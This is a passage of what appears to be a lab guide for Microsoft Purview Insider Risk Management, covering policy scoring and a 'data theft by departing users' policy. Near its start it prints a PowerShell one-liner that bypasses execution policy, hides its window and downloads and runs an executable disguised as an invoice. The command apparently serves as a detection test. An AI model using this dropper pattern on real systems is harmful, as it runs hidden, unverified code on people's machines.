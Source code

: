 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
![A screenshot of a computer Description automatically
generated](./media/image42.png)

20. Keep the tab open and continue to the next task.

#### Step 2 – Score the policy

1.  Click on the new policy named R**isky usage of browser**. Select **Start
    scoring activity for users**.

![A screenshot of a computer Description automatically
generated](./media/image43.png)

2.  In the **Reason** field in the **Add users to multiple policies pane**,
    type ```Testing the policy```.

![A screenshot of a computer Description automatically
generated](./media/image44.png)

3.  In the **This should last for (choose between 5 and 30 days)** field,
    select **10** days.

4.  Use the Search user to add to policies field. Add **Patti**, **Adele**,
    and **Christie**. Then click on **Start scoring activity**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image45.png)

5.  Once you get the confirmation that you have started **Scoring
    activity for 3 users**, click **Close**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image46.png)

### Task 2: Data theft by departing users

#### Step 1 – Create a new policy

1.  If you closed the browser window in the previous task, open
    the ```https://purview.microsoft.com``` and log in with the
    username **pattif@{TENANTPREFIX}.onmicrosoft.com** and the User
    password. (replace {TENANTPREFIX} with your tenant prefix given on the
    resources tab).

2.  Go to **Insider Risk Management** and select the **Policies** tab.
    Select **Create policy** to open the policy wizard.

![](./media/image27.png)

3.  On the** Choose a policy template** page, choose **Data theft by departing
    users**, under **Data theft**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image47.png)

4.  On the **Name and description** page, complete the following fields:

    - Name (required): ```Data theft by a user```

    - Description (optional): ```This is a test policy forthe preventing data theft.```

5.  Select **Next** to continue.

```